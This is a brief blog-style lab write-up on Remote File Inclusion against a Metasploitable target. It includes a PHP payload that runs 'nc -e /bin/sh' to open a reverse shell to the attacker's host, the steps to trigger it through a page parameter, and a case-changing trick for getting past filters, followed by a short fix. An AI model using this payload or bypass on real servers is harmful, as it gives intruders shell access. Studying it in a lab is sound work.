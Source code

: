 +++
categories = ["File Vulnerability", "Metasploitable"]
date = "2021-02-08"
title = "Vulnerability Remote File Inclusion"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++


* It is similar to the local file inclusion.
* Allows for the attacker to read any file at any server. 
* Executes PHP files from other servers in the current server.
* Storage PHP files from other servers as .txt.

For this to work the server under attack must have allow_url_fopen & allow_url_include ON.

1. Launch apache server on kali and create a txt file that contains:
   
``` 
<?php

passthru("nc -e /bin/sh 10.0.2.5 9999");

?>
```
2. Move the file to ``/var/www/html`` and check the server localhost/shellinversa.txt
3. Copy the url but instead of localhost the real ip and paste after ``/?page=``
4. Listen to a connection `` nc -vv -l -p 9999 ``
5. Reload page

If the security is higher you may have to replace the ``http`` with ``hTTp`` or something like that. Because maybe it is filtering by a fixed name.

To avoid this type of vulnerability we only have to set to OFF the allow_url_fopen and allow_url_include.

